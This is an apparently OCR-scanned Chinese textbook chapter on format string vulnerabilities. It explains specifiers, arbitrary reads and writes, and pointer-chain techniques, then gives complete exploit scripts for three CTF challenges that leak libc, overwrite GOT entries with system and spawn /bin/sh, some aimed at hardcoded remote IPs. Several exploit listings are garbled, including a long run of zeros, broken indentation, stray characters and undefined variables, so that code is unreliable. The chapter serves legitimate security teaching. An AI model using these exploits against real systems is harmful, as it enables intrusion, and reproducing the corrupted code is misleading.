

???+ abstract "本章摘要"
    本章系统讲解格式化字符串漏洞：先介绍格式化函数与格式说明符（%x、%p、%s、%n）及 `%d$m` 参数定位的基本概念，再分别讲信息泄露（%p/%s 任意地址读）与信息修改（%n/%hn/%hhn 任意地址写）两大利用方向，随后补充 path 二级指针、单次格式化转多次格式化、其他漏洞转格式化漏洞三类额外技巧，最后结合 CCTF-2016 PWN3、RCTF-2015 nobug、LCTF-2016 PWN200 三道真题讲解完整利用流程。
## 章节导航

上一篇：第13章 栈溢出漏洞
下一篇：第15章 整数溢出漏洞
回到目录：[00-目录](00-目录.md)

## 第14章 格式化字符串漏洞

### 14.1 基本概念

格式化字符串漏洞主要是针对一些格式化函数，如printf、printf、vsprintf等。这些格式化函数利用格式化字符串来指定串的格式，在格式串内部使用一些以“%”开头的格式说明符（format specifications）来占据一个位置，在后面的变参列表中提供相应的变量，最终函数就会使用相应位置的变量来代替那个说明符，产生一个调用者想要的字符串。

???+ note "定义：格式化字符串漏洞"
    ==格式化字符串漏洞==是格式化函数（printf、sprintf、vsprintf 等）在参数数量不足或格式串可控时，仍按传参规则去栈上/寄存器中取“参数”进行替换或写入，从而造成信息泄露或内存任意读写的一种漏洞。
下面列出几个比较关键的参数格式。

- %ox(%lx)：替换为参数的值（十六进制）。
- %p：替换为参数的值（指针形式）。
- %0s：替换为参数所指向内存的字符串。
- %n：将格式化串中该特殊字符之前的字符数量写入参数中（获取地址的参数）。

下面简单了解下参数定位。

在正常的情况下，格式化字符串所需的参数是依次往后索引的，如 “%p, %x”，其对应于第1、2个参数。

也有一些特殊情况，如“%d$m”形式：其中，d代表数字（1，2，…），用来定位参数列表中的第d个参数（从1开始算）；m为前面所述的关键参数格式之一（x，p，s，n，…）。

简单的示例代码如下：

```c
#include <stdio.h>
int main()
{
    int addr = 0xdeadbeef;
    printf("%p, %p\n", 1, 2, &addr);
    printf("%1$p\n", 1, 2, &addr);
    printf("%2$p\n", 1, 2, &addr);
    printf("%3$p\n", 1, 2, &addr);
}
```

x86下测试的最终结果如图14-1所示。

{ width="100%" }


<div style="text-align: center;">图14-1 printf函数的打印情况</div>


printf("%p,%p\n", 1, 2, &addr); => 0x1,0x2
printf("%1$p\n", 1, 2, &addr); => 0x1
printf("%2$p\n", 1, 2, &addr); => 0x2
printf("%3$p\n", 1, 2, &addr); => 0xff867b5c （addr的内存地址）

???+ tip "本节要点"
    1. 格式化说明符：%x/%lx 十六进制、%p 指针、%s 字符串、%n 写入字符计数；
    2. `%d$m` 形式可定位第 d 个参数（从 1 开始），m 为 x/p/s/n 等；
    3. 正常情况下参数依次往后索引，如 “%p, %x” 对应第 1、2 个参数。
??? note "是什么/为什么/常见问题"
    1. %n 与 %p 有什么区别？%p 是“读”出参数值（指针形式），%n 是“写”入格式化串中 %n 之前已输出的字符数，方向完全不同。
    2. `%d$m` 中的 d 为什么从 1 开始？因为格式函数把格式串本身当作第 0 个“参数”之外的第一个实参，参数定位约定从 1 计数。
    3. %s 的正确写法是什么？标准写法是 `%s`（替换为参数所指向内存的字符串），原文这里的 "%0s" 实为 `%s`。
[OCR存疑：本节参数格式清单中 “%0s” 与 “%ox(%lx)” 疑分别为 `%s` 与 `%x(%lx)`；原文“如printf、printf、vsprintf等”中第二个 printf 疑应为 sprintf。]

### 14.2 信息泄露与修改

### 1. 原理

通常，格式化函数是一种变长参数函数，后面的参数需要根据栈的参数传递来进行释放，x86的参数全在栈上，x64的参数从第4个开始放在栈上。这些格式化函数遇到格式说明符的关键字符之后，会按照传参规则去寻找参数来进行替换或者修改，并不会关心真实的传参情况。所以如果实际参数数量小于所需的参数数量，则其依然会将对应位置的数值当成参数进行转换，从而引发格式化字符串漏洞。由此可见，利用格式化字符串漏洞既能够泄露信息，又能够修改信息，功能比较强大。

### 2. 信息泄露

利用格式化漏洞来进行泄露主要是利用格式化字符串的参数转换显示功能，示例代码如下：

```c
#include <stdio.h>
int main()
{
    printf("%p. %p. %p. %p. %p. %p. %p\n");
    printf("%4$p. %7$p\n");
    printf("%4$x. %7$x\n");
    printf("%4$s\n");
}
```

x86测试示例代码结果如图14-2所示。

{ width="100%" }


<div style="text-align: center;">图14-2 x86程序运行输出效果</div>


从结果可以看出，“%4$p.%7$p”分别与

“%p.%p.%p.%p.%p.%p.%p.”中对应的第四和第七个参数是一样的。

在printf调用时下断点，观察函数栈情况，如图14-3所示。

对照测试结果，查看与第四个参数对应的地址中存放的内容，如图14-4所示。

x64测试示例代码结果如图14-5所示。

从运行结果可以看出，“%4$p.%7$p”与“%p.%p.%p.%p.%p.%p.%p.%p”中对应的第七个参数是一样的，而第四个参数则不一样，虽然这两个参数用的都是同一个寄存器r8，但是由于调用了函数，所以寄存器的值发生了改变。在printf调用时下断点，观察函数栈的情况如图14-6所示。

{ width="100%" }


<div style="text-align: center;">图14-3 x86程序函数栈状态</div>


{ width="100%" }


<div style="text-align: center;">图14-4 x86程序地址对应的数据</div>


{ width="100%" }


<div style="text-align: center;">图14-5 x64程序运行的输出效果</div>

{ width="100%" }


<div style="text-align: center;">图14-6 x64程序函数栈状态</div>


### 3. 信息泄露的最基本技巧

无论是x86还是x64程序，后续参数都会存储在栈上，寻找参数时，是往栈底（地址变大）方向去寻找，而栈底方向依次存放的是当前函数、父函数及以上调用者的函数栈信息（参考第12章中的栈结构信息），所以在泄露信息时，一般除了泄露栈中本身存储的数据之外，还会在栈上布置一些数据来实现任意地址泄露。尤其是对于x64程序来说，寄存器的值不好控制，若想要实现任意地址泄露，则应更倾向于控制栈数据。

示例代码如下：

```c
#include <stdio.h>
char *global_str = "show content";
int func_2()
{
    char buff2[0x20];
    memset(buff2, '2', 0x20);
    //"27$p.28$p.47$p"
    gets(buff2);
    printf(buff2);
    printf("\n");
}
int func_1()
{
    char buff1[0x20];
    memset(buff1, '1', 0x20);
    memcpy(buff1, "\x01\x02\x03\x04\xe0\x86\x04\x08", 8);
    func_2();
}
int main()
{
    char buff0[0x20];
    printf("%p\n", global_str);
    memset(buff0, '0', 0x20);
    memcpy(buff0, "\xef\xbe\�xd\�de\xff\xff\xff\xff", 8);
}

func_1();
```

上述代码运行结果如图14-7所示。

{ width="100%" }


<div style="text-align: center;">图14-7 程序运行输出</div>


在func_2中的printf函数调用处下断点，查看相应的栈内存。为了简化，这里只显示函数栈中buff数组变量相应的部分，栈对照图如图14-8所示。

可以看出，在func_2中调用printf函数时，本函数的buff2以及上层函数里面的buff1和buff0都在栈中，且通过图14-8中所示的索引“31、32、51”可以索引到前面设置的内存值，并将其显示出来。如果使用了“%d$n”，则可以显示对应内存处的内容，如“%28$s”会打印0x80486e0地址处的内容；如果能够控制这个值，则可以实现任意地址访问。

{ width="100%" }


<div style="text-align: center;">图14-8 printf函数处的栈状态</div>


结果如图14-9所示。

{ width="100%" }


<div style="text-align: center;">图14-9 输入%28$s的程序输出情况</div>


### 4. 信息修改

信息修改主要是利用格式化字符串中的%n对参数进行写入，写入的值是格式化字符串中%n之前的字符数量。

例如：

int val;
val = 0;printf("12345%n", &val); => 执行后val的值被修改成5

修改宽度控制具体如下。

- %on：修改4字节。
- %hn：修改2字节。
- %hhn：修改1字节。

修改内容控制：结合%c来修改成特定的值，如将“%100c”替换为宽度为100的字符，由于字符只有一个，其他部分由空格替代，示例说明如下。

对于int型数val，代码如下。

val = 0;printf("%1991c%n", '1', &val); => val = 1991
val = 0;printf("%1991c%3$n", '1', 2, &val); => val = 1991

修改值时，如果宽度超过所规定的字节数，则其余部分（超出部分）会被舍去，代码如下：

val = 0;printf("%16909060c%2$n", '1', &val);    => val = 16909060(0x01020304)
val = 0;printf("%16909060c%2$hn", '1', &val); => val = 772(0x0304)
val = 0;printf("%16909060c%2$hhn", '1', &val);=> val = 4(0x04)

修改时，如果修改的宽度没有超过原有的数据宽度，则其余部分保持不变，代码如下：

val = 0x101;printf("%16909060c%2$hhn", '1', &val); => val = 260(0x104)

下面列举一个示例，代码如下：

```c
#include <stdio.h>
int global_sign = 0;
int main()
{
    char buff[0x20];
    printf("%p\n", &global_sign);
    gets(buff);
    printf(buff);
    printf("\n");

    if (global_sign == 1)
    {
        printf("Hacked\n");
    }
    else
    {

printf("Normal\n");
}

```

在上述代码中，正常逻辑会打印出Normal，但是存在printf格式化字符串漏洞，利用这个来实现任意地址写，改写全局变量global_sign的值为1，从而改变正常逻辑，打印出Hacked。

由于文中只有一个buff，所以将要改写内容的地址布置在buff 中，且格式化内容也在栈中。这样只要往后索引到所布置的地址，就能对其进行改写了。利用代码如下：

```python
from zio import *
target = "./fsb_modify_m32"

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def pwn(io):
    data = io.read_until("\\n")[:-1]
    addr = int(data, 16)
    payload = ""
    #payload += "A"*0x8
    payload += "%1c%11$n"
    payload = payload.ljust(0x10, 'a')
    payload += 132(addr)
    io.writeline(payload)
    io.interact()

io = get_io(target)
pwn(io)
```

执行结果如图14-10所示。

{ width="100%" }


<div style="text-align: center;">图14-10 劫持控制流成功</div>

???+ tip "本节要点（14.2 信息泄露与修改）"
    1. 原理：格式函数是变长参数函数，参数不足时仍按传参规则从栈上/寄存器取“参数”转换或写入，从而泄露或修改信息；
    2. 信息泄露：x86 参数全在栈上；x64 前 3 个参数走寄存器、从第 4 个开始放栈上，寄存器值易变，故任意地址读更倾向控制栈数据；
    3. 信息修改靠 %n/%hn/%hhn 写 4/2/1 字节，结合 %c 控制写入的字符数（宽度）；宽度超出对应字节数会被舍去低位，未超出则其余字节保持不变；
    4. 任意地址写的通用套路：把目标地址布置在栈上，再用 `%d$n` 索引到该地址实现写入。
### 14.3 额外技巧

关于格式化字符串漏洞的利用技巧，这里主要讲解如下三个方面。

### 1. 无法存放或索引到目的地址

无法存放或者索引到目的地址时，通过path二级指针进行格式化利用。

这类情况通常又可分为以下3种。

1）由于可以控制的栈太小，例如只有几个字节，导致地址变量无法存储到栈中。

2）可以控制的buff内存在堆上，无法索引到该地址。

3）其他情况。

但是这类情况存在格式化字符串漏洞，并且可以多次执行，示例代码如下：

```c
#include <stdio.h>
void init_proc()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

setvbuf(stderr, 0, 2, 0);

void get_buff(char *buff, int size, char end_ch)
{
    int i;
    char tmp_ch;
    for (i = 0; i < size - 1; i++)
    {
        if (read(0, &tmp_ch, 1) <= 0)
        {
            printf("error\n");
            exit(0);
        }
        if (tmp_ch == end_ch)
            break;
        buff[i] = tmp_ch;
    }
    buff[i] = "\x00";
}
int main()
{
    char buff[16];
    init_proc();
    while (1)
    {
        printf(">>");
        get_buff(buff, 16, "\n");
        if (memcmp(buff, "exit", 4) == 0)
            break;
        printf("<<");
        printf(buff);
        putchar('\\n');
    }
}
```

反汇编代码如图14-11所示。

在格式化字符串漏洞0x4009B5处下断点，观察栈内存如图14-12所示。

可以看到，如果单用buff是不能修改任意地址内存的，所以需要多级指针来配合。从图14-13中可以看出，存在多个位置可以利用，一般建议利用path多级指针。path指针修改示意如图14-13所示。

{ width="100%" }


<div style="text-align: center;">图14-11 反汇编代码</div>

{ width="100%" }


<div style="text-align: center;">图14-12 函数栈状态</div>

{ width="100%" }


<div style="text-align: center;">图14-13 path指针指向示意图</div>


path指针分为3级指针，path2→path1→path0→buff，由于改写内容使用的%s是改写所存地址指向的内容，即如果%s索引到path2处，则可改写其中存储的地址path1所指向的内容，即改写path0的值；如果%s索引到path1，则可改写其中存储的地址path0所指向的内容，即

改写buff的值。修改链如下：通过path2的索引m2修改path0的值，通过path1的索引m1修改buff的值。在这个过程中，path2和path1是无法修改的，由于修改了path0，其值决定了buff的修改位置，所以可以修改到buff的多个位置，即可以在buff处存储一个地址target。然后，通过path0的索引m0修改target所指向的内存地址，实现任意地址写。

利用代码如下：

```python
from zio import *
target = "./sample_1"

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def get_addr(io, index):
    io.read_until(">> ")
    payload = ""
    payload += "%%d$p" % index
    io.writeline(payload)
    io.read_until("<< ")
    data = io.read_until("\n") [:-1]
    addr = int(data, 16)
    return addr

m2=0; m1=0; m0=0; path0_last_byte=0;

def modify_index_byte(io, index, val):
    io.read_until(">> ")
    payload = ""
    if val == 0:
        payload += "%%d$hhn" % index
    else:
        payload += "%%dc%d$hhn" % (val, index)
    io.writeline(payload)

def modify_path_byte(io, offset, val):
    global m2, m1, m0, path0_last_byte
    #set path1_ptr lastbyte = offset
    modify_index_byte(io, m2, offset)
    #write data at path
    modify_index_byte(io, m1, val)

def set_addr_at_path(io, addr):
    global m2, m1, m0, path0_last_byte
    data = 164(addr)
    for i in range(8):
        modify_path_byte(io, path0_last_byte+i,
                                     ord(data[i]))
        #rewind path ptr
        modify_index_byte(io, m2, path0_last_byte)

#write anywhere
def write_data(io, addr, data):
    global m0
    for i in range(len(data)):
        set_addr_at_path(io, addr+i)
        modify_index_byte(io, m0, ord(data[i]))

def pwn(io):
    global m2, m1, m0, path0_last_byte
    m2 = (0x7FFFFFFF488 - 0x7FFFFFFF450)/8 + 6
    m1 = (0x7FFFFFFF558 - 0x7FFFFFFF450)/8 + 6
    __libc_main_start_ret_index = (0x7FFFFFFF478 - 0x7FFFFFFF450)/8 + 6
    stack_addr_index = (0x7FFFFFFF460 - 0x7FFFFFFF450)/8 + 6

    path1_addr = get_addr(io, m2)
    path0_addr = get_addr(io, m1) & (~3)
    print hex(path0_addr)
    m0 = (path0_addr - path1_addr)/8 + m1
    path0_last_byte = path0_addr & 0xff

    __libc_main_start_ret_addr = get_addr(io,
                                    __libc_main_start_ret_index)
    #find bylibc_database
    offset__libc_start_main_ret = 0x21ec5
    offset_system = 0x000000000044c40
    offset_str_bin_sh = 0x17c09b

#
libc_base = __libc_main_start_ret_addr - offset__libc_start_main_ret
system_addr =libc_base + offset_system
binsh_addr =libc_base + offset_str_bin_sh

#find by ROPgadget
p_rdi_ret = 0x0000000000400a33
pp_ret = 0x0000000000400a30

stack_addr = get_addr(io, stack_addr_index)
ret_rsp = stack_addr + (0x7fffffff478 - 0x7fffffff550)

rop_data = ""
rop_data += 164(p_rdi_ret) + 164(binsh_addr)
rop_data += 164(system_addr)

write_data(io, ret_rsp, 164(pp_ret))
write_data(io, ret_rsp + 3 * 8, rop_data)
#io.gdb_hint()
io.read_until(">>")
io.writeline("exit")
io.interact()

io = get_io(target)
pwn(io)
```

具体可参考14.2.2节。

### 2. 只有单次格式化机会

只有单次格式化机会时，修改特定函数可实现多次格式化。

由于格式化漏洞一次性利用所能做的事情很有限，很多时候程序需要先泄露，根据泄露计算出libc的基址后，再去改写。但是格式化

漏洞能够执行的次数有限（满足不了泄露、改写等），此时可以尝试改写一些特定位置来实现多次格式化漏洞。

1）已知程序栈地址，可以将程序返回地址改写为程序入口，在程序逻辑上构造循环，从而实现多次利用格式化字符串漏洞的目的。

2）在程序未开启FullRelro的情况下，直接改写某些函数的got表地址，以便构造循环逻辑。

3）可以通过函数指针、libc中的hook指针等作为改写位置。

最终达到的效果如图14-14所示。

具体可参考14.2.2节。

{ width="100%" }


<div style="text-align: center;">图14-14 构造多次格式化示意图</div>


### 3. 将其他漏洞转换为格式化漏洞

将其他漏洞转换为格式化漏洞，实现任意地址泄露与修改。

这种情况主要是由于存在的漏洞的作用很有限，需要将这些漏洞转换为功能更加强大的格式化字符串漏洞，然后进行利用。这种情况通常是，能够实现部分地址写，如覆盖函数钩子指针或者函数got表等

情况，但是无法实现任意地址泄露或者任意地址改写，此时将这些地址改写成printf函数，即可泄露出更多信息或者改写更多地址等。

具体可参见14.2.3节。

???+ tip "本节要点（14.3 额外技巧）"
    1. 无法存放/索引到目的地址时，用 path 二级（多级）指针链 path2→path1→path0→buff 逐级定位，最终实现任意地址写；
    2. 只有单次格式化机会时，通过改写返回地址为程序入口、改写未开启 Full RELRO 的 got 表、改写函数指针或 libc hook 来构造“多次格式化”；
    3. 将其他漏洞转换为格式化漏洞：把函数钩子指针/got 表改写成 printf，从而获得任意地址泄露与修改能力。
### 14.4 真题解析

#### 14.4.1 {CCTF-2016} PWN3(PWN350)

这道题应该是三道PWN题中最简单的一道，是关于格式化字符串的，漏洞处如图14-15所示。

```c
int get_file()
{
    char dest[200]; // [sp+1Ch] [bp-FCh]@5
    char s1[40]; // [sp+E4h] [bp-34h]@1
    struct_file_info *each_file; // [sp+10Ch] [bp-Ch]@3

    printf("enter the file name you want to get城县")
    isoc99_scanf("%40s", s1);
    if (!strncmp(s1, "flag", 4u))
        puts("too young, too simple");
    for (each_file = file_head; each_file; each_file = each_file->next)
    {
        if (!strcmp(each_file->name, s1))
        {
             电子
             strcpy(dest, each_file->content);
             return printf(dest);
        }
    }
    return printf(dest);
}
```

<div style="text-align: center;">图14-15 PWN3漏洞点反编译代码</div>


格式化在栈上，利用代码如下：

```python
from zio import *
from pwn import *
target = "./pwn3"

elf_path = "./pwn3"
target = ("120.27.155.82", 9000)
def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")

    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def get_elf_info(elf_path):
    return ELF(elf_path)

def put_file(io, name, content):
    io.read_until("ftp>")
    io.writeline("put")
    io.read_until(":")
    io.writeline(name)
    io.read_until(":")
    io.writeline(content)

def dir_file(io):
    io.read_until("ftp>")
    io.writeline("dir")

def get_file(io, name):
    io.read_until("ftp>")
    io.writeline("get")
    io.read_until(":")
    io.writeline(name)

def pwn(io):
    # sample
    # elf_info = get_elf_info(elf_path)

    name = "sysbdmin"
    io.read_until("Name (ftp.hacker.server:Rainism):")
    io.writeline()
    real_name = [chr(ord(c)-1) for c in name]
    real_name = "".".join(real_name)

    io.writeline(real_name)

    malloc_got = 0x0804a024
    puts_got = 0x0804a028

name = "aaaa"
#content = "AAAA" + "B"*4 + "C"*4 + "%7$x."
content = 132(malloc_got) + "%7$s...."
put_file(io, name, content)
get_file(io, name)
data = io.read_until("....")
print [c for c in data]
malloc_addr = 132(data[4:8])
print "malloc_addr:", hex(malloc_addr)
#local
offset_malloc = 0x00076550
offset_system = 0x0003e800
#remote
offset_malloc = 0x000766b0
offset_system = 0x00040190
libc_base =malloc_addr - offset_malloc
system_addr =libc_base + offset_system
print "system_addr:", hex(system_addr)
addr_info = ""
padding_info = ""
system_addr_buff = 132(system_addr)
offset = 4*4
begin_index = 7
for i in range(4):
    addr_info += 132(puts_got + i)
    val = ord(system_addr_buff[i])
    count = val - offset

    if count <= 0:
        count += 0x100
    padding_info += "%%dc" %count + "%%d$hhn" %begin_index + i)

    offset = val

name = "/bin/sh;"
content = addr_info + padding_info

put_file(io, name, content)
io.gdb_hint()
get_file(io, name)
dir_file(io)
io.interact()
pass
io = get_io(target)
pwn(io)
```

[OCR存疑：本节 exp 中 “real_name = "".".join(real_name)”、“padding_info += ... %begin_index + i)”、“malloc_addr = 132(data[4:8])” 等行存在 OCR 误识别（`132(` 疑为 `p32(`，`""."` 疑为 `"".`，`%begin_index + i)` 疑为 `% (begin_index + i)`），此处保留原文并在段外作注。]

#### 14.4.2 {RCTF-2015} nobug(PWN300)

从这道题的汇编代码中可以发现，其中有一个函数返回的地方修改了栈，跳入了函数sub_8048B32中（如图14-16所示），而该函数中有一个明显的格式化字符串（如图14-17所示）。

虽然格式化字符串不在栈上，但是格式化可以无限次使用。通过argv、argv0和path的指向关系，可以实现任意地址改写的效果。具体代码如下：

{ width="100%" }


<div style="text-align: center;">图14-16 nobug格式化漏洞反汇编代码</div>


{ width="100%" }


<div style="text-align: center;">图14-17 nobug格式化漏洞反编译代码</div>

```python
from zio import *
import base64

target = './nobug'
target = ('180.76.178.48', 8888)

def do_fmt(io, fmt):
    io.writeline(base64.encodestring(fmt))
    d = io.readline().strip()
    io.readline()
    return d

def write_any(io):
    d1 = do_fmt(io, '%31$p')
    argv0 = int(d1.strip('\\n'), 16)
    d2 = do_fmt(io, '%67$p')
    path = int(d2.strip('\\n'), 16)
    print hex(path)

    path = (path + 3) / 4 * 4
    print hex(path)

    index3 = (path - argv0) / 4 + 67

    strlen_got = 0x0804A030

    addr = strlen_got

    for i in range(4):
        do_fmt(io, '%%dc%31$hhn' % ((path + i) & 0xff))
        k = ((addr >> (i * 8)) & 0xff)
        if k != 0:
            do_fmt(io, '%%dc%31$hhn' % k)
        else:
            do_fmt(io, '%67$hhn')

    addr = strlen_got + 2
    for i in range(4):
        do_fmt(io, '%%dc%31$hhn' % ((path + 4 + i) & 0xff))
        k = ((addr >> (i * 8)) & 0xff)
        if k != 0:
            do_fmt(io, '%%dc%31$hhn' % k)

else:
    do_fmt(io, '%%67$hhn')

d = do_fmt(io, "%29$p")
libc_main = int(d, 16)
print hex(libc_main)

lib_base = libc_main - 0x00019A63
system = lib_base + 0x0003FCD0
systemlow = system&0xFFFF
systemhigh = (system>>16)&0xFFFF
do_fmt(io, "%%dc%%d$hn%%dc%%d$hn" %(systemlow, index3, systemhigh-systemlow, index3+1))

io.writeline('/bin/sh')

def exp(target):
    io = zio(target, timeout=10000,
    print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))

write_any(io)

io.interact()

exp(target)
```

#### 14.4.3 {LCTF-2016} PWN200

该题的漏洞也比较简单，漏洞点反汇编代码如图14-18所示。

{ width="100%" }


<div style="text-align: center;">图14-18 PWN200漏洞点反汇编代码</div>


直接读取溢出能够覆盖dest的指针，然后通过strcpy就可以实现任意地址写了，首先可以将free改写成printf，实现任意地址泄露，然后通过在前面name栈中布置好地址，可以实现任意地址改写。

利用代码具体如下：

```python
from zio import *

target = "./pwn200"
target = ("119.28.63.211", 2333)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m,

print_write = w_m)
return io

def pwn(io):
    io.read_until("u?\n")
    # io.gdb_hint()
    read_got = 0x0000000000602038
    free_got = 0x0000000000602018
    atoi_got = 0x0000000000602060
    strcpy_got = 0x0000000000602020

    # name_addr : 0x7fffc87784f0
    # rbp : 0x7fffc8778520
    # money buff : 0x7fffc8778540
    payload = ""
    payload += 164(read_got)
    payload += 164(strcpy_got+0)
    payload += 164(strcpy_got+2)
    payload += 164(free_got+0)

    io.writeline(payload)
    # io.write("1"*48)
    # io.read_until('1'*48)
    # data = io.read_until(" , welcome") [:-len(" , welcome") ]
    # rbp = 164(data[:8].ljust(8, '\\x00'))
    # print "rbp: ", hex(rbp)
    io.read_until("?\\n")
    io.writeline("123")
    io.read_until("~\\n")

malloc_got = 0x0000000000602050
    printf_plt = 0x0000000000400640
    strcpy_plt = 0x0000000000400620

    payload = ""
    payload += 164(printf_plt)
    payload = payload.ljust(56, '\\x00')
    payload += 164(free_got)

    io.write(payload)

io.read_until("choice : ")
io.writeline("2")

io.read_until("choice : ")
io.writeline("1")
io.read_until("long?\n")
io.writeline(str(0x80))
io.read_until(" : ")
io.read_until("\n128\n")
payload = ""
payload += "%26$s--...--"
io.write(payload)
io.read_until("choice : ")
io.writeline("2")
io.read_until("out~\n")
data = io.read_until("--...--")[:-6]
read_addr = 164(data[:8]).ljust(8, "\x00')
print "read_addr:", hex(read_addr)
offset_read = 0xeb530
offset_system = 0x44c40
offset_system = 0x00000000000468f0
offset_dup2 = 0x0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

payload += "%%dc%%27$hn%" (low_part-0x20)
payload += "%%dc%%28$hn%" (high_part - low_part)
print payload

io.write(payload)

io.read_until("choice : ")
io.gdb_hint()
io.writeline("2")

io.read_until("choice : ")
io.writeline("1")
io.read_until("long?\n")
io.writeline(str(0x80))
io.read_until(" : ")
io.read_until("\n128\n")
io.writeline("/bin/sh;")

io.read_until("choice : ")
io.writeline("2")

io.interact()

io = get_io(target)
pwn(io)
```

[OCR存疑：本节 exp 最后两行 “payload += "%%dc%%27$hn%" (low_part-0x20)”、“payload += "%%dc%%28$hn%" (high_part - low_part)” 疑为 `payload += "%%dc%%27$hn" % (low_part-0x20)`、`payload += "%%dc%%28$hn" % (high_part - low_part)`；`low_part`、`high_part` 变量定义缺失，疑因 OCR 截断。此段长串 “offset_dup2 = 0x…”后的连续 0 为 OCR 产物，均保留原文并在段外作注。]

???+ tip "本节要点（14.4 真题解析）"
    1. PWN3：格式化在栈上，直接 `132(malloc_got) + "%7$s...."` 泄露 malloc 地址算 libc 基址，再用 `%d$hhn` 逐字节改写 puts_got 为 system；
    2. nobug：格式化不在栈上但可无限次使用，借助 argv、argv0、path 的指向关系做任意地址改写，逐字节改 strlen_got；
    3. PWN200：溢出覆盖 dest 指针 → strcpy 任意地址写，先把 free 改成 printf 泄露，再在 name 栈布置地址实现任意改写。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. x64 下前 3 个参数走寄存器、寄存器值易被函数调用改变，==任意地址读写不能简单套用 x86 的“参数全在栈上”经验==，要优先控制栈数据；
    2. ==%n 系列写宽度超过对应字节数会“舍去”超出部分、未超过则保持其余字节不变==，用 %hn/%hhn 时要算好目标值的位数；
    3. `%n` 是“写入”，`%p`/`%s` 是“读出”，方向相反，不要混淆；
    4. 只有单次格式化机会时，未开启 Full RELRO 才能直接改 got 表构造循环，否则要借助返回地址、函数指针或 libc hook。
## 自测题

??? note "自测题"
    **基础**
    1. 格式化字符串漏洞针对的是哪一类函数？请举两个例子。
    2. `%p`、`%s`、`%n` 三个格式说明符分别有什么作用？
    3. `%d$m` 形式中，d 和 m 分别代表什么？d 从几开始计数？
    4. 为什么参数数量不足会引发格式化字符串漏洞？
    5. x86 和 x64 在参数传递上各自有什么特点（关系到漏洞利用）？
    6. `%n`、`%hn`、`%hhn` 分别写入几个字节？
    
    **进阶**
    7. 在 x64 下想要实现任意地址泄露，为什么更倾向于控制栈数据而不是寄存器？
    8. 无法存放或索引到目的地址时，path 二级指针链是如何工作的（简述修改链）？
    9. 只有单次格式化机会时，有哪些方法可以构造“多次格式化”？
    10. 如何把一个作用有限的其他漏洞转换为格式化字符串漏洞？
    
    **参考答案**
    1. 针对格式化函数，如 printf、sprintf、vsprintf 等。
    2. %p 替换为参数值（指针形式）、%s 替换为参数所指向内存的字符串、%n 将格式化串中该特殊字符之前的字符数量写入参数中。
    3. d 代表数字，用来定位参数列表中的第 d 个参数（从 1 开始）；m 为关键参数格式之一（x、p、s、n 等）。
    4. 格式函数是变长参数函数，遇到格式说明符后会按传参规则去栈/寄存器中取“参数”，并不关心真实传参数量，实际参数不足时仍把栈上对应位置的数值当成参数转换或写入。
    5. x86 参数全在栈上；x64 参数从第 4 个开始放在栈上（前 3 个走寄存器）。
    6. %n 写 4 字节、%hn 写 2 字节、%hhn 写 1 字节。
    7. x64 前 3 个参数走寄存器，寄存器值易随函数调用改变而不受控；而后续参数都布置在栈上，控制栈数据更可靠。
